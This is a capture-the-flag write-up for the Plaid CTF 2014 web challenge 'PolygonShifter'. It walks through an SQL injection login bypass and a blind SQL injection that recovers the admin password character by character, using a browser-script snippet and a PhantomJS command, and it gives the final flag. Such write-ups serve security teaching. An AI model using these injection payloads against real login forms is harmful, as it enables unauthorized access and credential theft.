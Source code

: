 # Plaid CTF 2014: PolygonShifter

**Category:** Web
**Points:** 100
**Description:**

> The Plague has purchased the newest invention, _Polygon Shifter_ to protect his website. This cutting edge technology is made available by Polygon Security, and they have a demo page on their [website](http://54.204.80.192/). They claim bots can no longer attack the website protected by the Polygon Shifter. Do we need to manually bruteforce the credentials?

## Write-up

Looking into the source code, we learn that there is a ‘secret’ admin account:

```html
<div class="row">
<div class="medium-10 small-centered columns">
    <h3>To demonstrate our technology, we have a form that is protected with our solution. Humans shall pass, but bots will FAIL.</h3>
    <h3>Test account is test / test</h3>
    <!--<h3>For admin interface, admin / ???????</h3>-->
</div>
</div>
```

Let’s try to log in to this admin account. We don’t have the credentials, so we’ll try SQL injection instead:

* Username: `admin' OR 'a'='a`
* Password: `random`

Great, we’re logged in! We are welcomed with the following message:

> Hello, admin!! My password is the flag!

It seems like we need to find the password using SQL injection. Let’s peek into the source code some more:

```html
<h4 class="product-header">A friendly login form; not so friendly for bots!</h4>
<div class="medium-11 small-centered columns">
    <form action="/P0zxeNVpdjH6myRHaWVS" method="POST">
        <label for="" style="text-align:left;">Username</label>
        <input type="text" id="6lyNestBnznos6FxGtGD" name="dVURHUzXGy69u5thdZY0">
        <label for="bFixmywlQhbkX1uC1oI2" style="text-align:left;">Password</label>
        <input type="password" id="bFixmywlQhbkX1uC1oI2" name="SU8IPPqzwozVlQzuaWSA">
        <input class="primary large" type="submit" value="Login">
    </form>
</div>
```

Okay, we cannot use the `id`s or `name`s of these fields to automate the process since they change for every request. No problem — we don’t really need those anyway. The source code doesn’t seem to have any more input fields, so we can just input our username in whatever’s the first input field on the page, and the password into the second field.

```js
var arr = document.getElementsByTagName('input');
arr[0].value = 'admin';
arr[1].value = "' or (password LIKE '%a%') and 1='1";
```

If we manage to successfully log in as admin using these values, we know that our query succeeded and that there’s an `a` in the password. Using a similar technique, we can slowly figure out the password character by character (cfr. [the WhatsCat challenge write-up](https://github.com/ctfs/write-ups/tree/master/plaid-ctf-2014/whatscat)).

We wrote a [PhantomJS](http://phantomjs.org/) script for this named [`client.js`](client.js). Run it as follows:

```bash
$ phantomjs client.js "(password like 'a%')"
```

After some testing, we find that the flag is `n0b0t5\_C4n\_bYpa5s\_p0lYm0rph1Sm`.

## Other write-ups and resources

* <http://balidani.blogspot.com/2014/04/plaidctf-2014-polygonshifter-writeup.html>
* <https://ucs.fbi.h-da.de/writeup-plaidctf-2014-polygonshifter/>
* <https://blog.skullsecurity.org/2014/plaidctf-writeup-for-web-100-blind-sql-injection>
* <http://eindbazen.net/2014/04/plaidctf-2014-polygonshifter-100/>
